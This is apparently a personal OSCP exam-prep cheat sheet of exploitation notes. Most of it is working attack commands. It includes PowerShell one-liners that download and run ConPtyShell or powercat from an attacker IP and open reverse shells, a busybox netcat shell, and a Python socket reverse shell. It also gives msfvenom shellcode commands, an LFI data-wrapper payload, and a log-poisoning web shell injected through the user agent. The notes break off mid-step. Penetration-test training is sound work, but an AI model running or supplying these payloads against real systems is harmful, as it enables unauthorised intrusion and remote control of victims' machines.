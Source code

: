 # Exploit
## Beloved Shells
### revshells.com
Try https://revshells.com to generate shells using a given port and IP
- take note to change the shell from `cmd` to `/bin/bash` or whatever as needed

### Solid RCE shell for Windows 1
- https://github.com/antonioCoco/ConPtyShell/blob/master/README.md
`powershell IEX(IWR http://192.168.45.230/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.230 443`
- need to be serving InvokeConPtyShell.ps1 from 80

### Solid RCE shell for Windows 2
`IEX(New-Object System.Net.WebClient).DownloadString('http://${ATTACKER_IP}:${ATTACKER_HTTP_PORT}/powercat.ps1'); powercat -c ${ATTACKER_IP} -p ${ATTACKER_PORT} -e powershell`
- need to be serving powercat.ps1 from 80

### Linux
`busybox nc 192.168.xxx.xxx 1234 -e sh`

### Python
Nested quotes:
- `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.118.11",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


## Buffer Overflow
As these are my OSCP notes, and there is no longer a buffer overflow machine on the exam, I'm leaving this content out of the guide for brevity. Instead I'll link a resource which turned out to be better and more succinct than the notes I took on the subject when I went through the course. Here is [V1n1v131r4's guide on Buffer Overflows](https://github.com/V1n1v131r4/OSCP-Buffer-Overflow). 

## Generating Shellcode
For the fields that say "place your shellcode here," such code can be generated using msfvenom like this:
- `msfvenom -p windows/shell_reverse_tcp LHOST=$kaliIP LPORT=443 -f powershell -v sc`
- `msfvenom -p $payload LHOST=$targetIP LPORT=$port EXITFUNC=THREAD -f $format -a $arch --platform $platform -e $encoder > $filename`


Check for Directory Traversals, LFI and RFI on php pages.
Consider inserting php code into log files and then running LFI exploits to run code.

SAMPLE LFI PHP WRAPPER PAYLOAD:
http://[IP]/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

## LFI
- Executing a file on the server, though we may have to modify it first somehow.  
- Ex: if the server stores access logs, modify the access log such that it contains our code, perhaps in the user agent field.
	1. Change this: "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101
Firefox/91.0"
	2. To this: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
	3. Then change the request to include "cmd=ls" to test
	4. \<server>/file.php?page=. . / . ./log&cmd=ls 
	- Note that it may need to be URL encoded if your command contains spaces i.e. ls&20-la for "ls -la"
	5. Then one liner shell: